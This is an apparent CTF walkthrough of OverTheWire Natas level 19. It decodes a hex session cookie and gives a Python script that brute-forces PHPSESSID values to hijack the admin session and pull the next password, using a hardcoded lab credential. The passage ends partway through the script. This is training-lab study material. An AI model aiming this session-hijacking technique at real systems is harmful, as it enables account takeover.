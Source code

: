 [*Back to top*](#overthewire---natas)

## Level 19

![natas19_index.jpg](screenshots/natas/natas19_index.jpg)

This time, we aren't given the source code. However, we do know that the challenge is similar to the last level. Let's try logging in as `admin` and checking what our session ID is set to:

![natas19_1.jpg](screenshots/natas/natas19_1.jpg)

This looks like a hex encoded string. Let's check:

```bash
$ echo 3335362d61646d696e | xxd -r -p
356-admin
```

Looks like the format is the `<id>-<user>`. We can reuse our script from the last challenge for this.

[Asyncio](files/natas/natas19_asnyc.py)\
[Without Asyncio](files/natas/natas19.py):

```python
#!/usr/bin/env python3
import re
import requests


url = 'http://natas19.natas.labs.overthewire.org/'
auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')

def find_password():
    for i in range(1,641):
        cookies = {'PHPSESSID': f'{i}-admin'.encode().hex()}
        r = requests.get(url, auth=auth, cookies=cookies)
        if 'Username: natas20' in r.text:
            password_re = re.compile('Password: (?P<password>[a-zA-Z0-9]{32})')
            password = password_re.search(r.text).groupdict()['password']
            return password


if __name__ == '__main__':
```